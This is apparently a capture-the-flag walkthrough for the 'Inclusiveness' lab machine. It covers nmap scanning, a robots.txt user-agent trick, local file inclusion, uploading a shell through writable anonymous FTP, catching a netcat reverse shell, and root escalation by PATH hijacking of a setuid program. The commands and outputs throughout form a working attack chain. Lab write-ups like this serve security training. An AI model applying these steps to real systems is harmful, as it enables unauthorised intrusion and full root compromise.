



### Inclusiveness

### Difficuly: Easy

Machine IP: 192.168.101.14

### Scanning
```bash
$ nmap -sC -sV -oA nmap/initial 192.168.101.14                                                             
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 06:04 EDT
Nmap scan report for 192.168.101.14
Host is up (0.10s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.101
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 06:1b:a3:92:83:a5:7a:15:bd:40:6e:0c:8d:98:27:7b (RSA)
|   256 cb:38:83:26:1a:9f:d3:5d:d3:fe:9b:a1:d3:bc:ab:2c (ECDSA)
|_  256 65:54:fc:2d:12:ac:e1:84:78:3e:00:23:fb:e4:c9:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.38 seconds
```

### Enumeration

- Found home page and have robots.txt



- change the `user_agent` header to `Google bot` and sent request and found `secret_information`

__Request__
```php
GET /robots.txt HTTP/1.1
Host: 192.168.101.14
User-Agent: Googlebot/2.1; +http://www.google.com/bot.html
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Sat, 08 Feb 2020 03:40:29 GMT
If-None-Match: "3b-59e084481655e"
Cache-Control: max-age=0
```

__Response__

```javascript
HTTP/1.1 200 OK
Date: Thu, 12 Aug 2021 10:17:36 GMT
Server: Apache/2.4.38 (Debian)
Last-Modified: Sat, 08 Feb 2020 03:26:11 GMT
ETag: "2d-59e08115bb1ef"
Accept-Ranges: bytes
Content-Length: 45
Connection: close
Content-Type: text/plain

User-agent: *
Disallow: /secret_information/
```

- Secret information home page

- URL: http://192.168.101.14/secret_information/?lang=en.php


- Since the box name is inclusiveness, and tried file inclusion and got etc password.



- Found `pub` directory through `ftp`, which is writable, now upload a shell and check in the web.
- ftp location can be found at `/var/ftp/pub/test.php` 
- Now listen on port 9001 and open `` and reverse shell is connected

__Result__

```bash
└─$ nc -lvnp  9001                                                                        1 ⚙
listening on [any] 9001 ...
connect to [192.168.49.101] from (UNKNOWN) [192.168.101.14] 55418
Linux inclusiveness 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64 GNU/Linux
 20:41:26 up  5:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

- Accessing `local.txt` file
```bash
www-data@inclusiveness:/home/tom$ cat local.txt
cat local.txt
27ee94d9bfb393fc911375067335bab5
```


### Privilege escalation


- Found a file `rootshell.c` 
```c
cat /home/tom/rootshell.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
        setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}

```

- Now create a fiel name `whoami`(executable) and change the path (path hijacking)

```bash
$ cd /tmp
$ echo "printf "tom"" > whoami
$ chmod +x whoami
$ export PATH=/tmp:$PATH
```
 - Now execte `rootshell` file and that will elevate privilages to root
 

